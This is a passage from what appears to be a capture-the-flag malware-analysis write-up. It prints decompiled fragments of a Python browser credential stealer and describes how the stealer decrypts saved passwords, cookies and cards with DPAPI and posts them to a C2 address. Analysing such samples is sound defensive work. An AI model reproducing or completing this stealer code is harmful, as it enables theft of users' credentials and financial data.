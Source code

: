```py
        pass  # postinserted
    return None

def convert_chrome_time(chrome_time):
    return (datetime(1601, 1, 1) + timedelta(microseconds=chrome_time)).strftime('%d/%m/%Y %H:%M:%S')

def installed_browsers():
    available = []
    for x in browsers.keys():
        if os.path.exists(browsers[x] + '\\Local State'):
            pass  # postinserted
        else:  # inserted
            available.append(x)
    return available
if __name__ == '__main__':
    available_browsers = installed_browsers()
    for browser in available_browsers:
        browser_path = browsers[browser]
        master_key = get_master_key(browser_path)
        print(f'Getting Stored Details from {browser}')
        for data_type_name, data_type in data_queries.items():
            print(f"\t [!] Getting {data_type_name.replace('_', ' ').capitalize()}")
            notdefault = ['opera-gx']
            profile = 'Default'
            profile = '' if browser in notdefault else ''
            data = get_data(browser_path, profile, master_key, data_type)
            save_results(browser, data_type_name, data)
            print('\t------\n')
```


After unpacking the PyInstaller executable and decompiling main.pyc using Pylingual, we recovered the original source code. The script functions as a Python-based browser data stealer, designed to:

- Extract passwords, cookies, credit card info, history, and downloads from several Chromium-based browsers.

- Decrypt saved credentials using Windows DPAPI and the master key stored in the browser’s Local State file.

- Exfiltrate stolen data to a remote server (http://10.10.70.114:443) via HTTP POST.

**🔍 Notable Capabilities:**
- Targets browsers like Chrome, Edge, Brave, Opera GX, and more.

- Sends data to C2 using JSON format (requests.post()).

- Supports multiple browser profiles and types of data (Login Data, Cookies, History, etc.).

- Contains hardcoded IV and references to decrypt encrypted.bin (downloaded earlier).

### 🔓 Focus on decrypt_my_data()
This function is responsible for decrypting the content of encrypted.bin, which we suspect contains the third and final part of the flag.
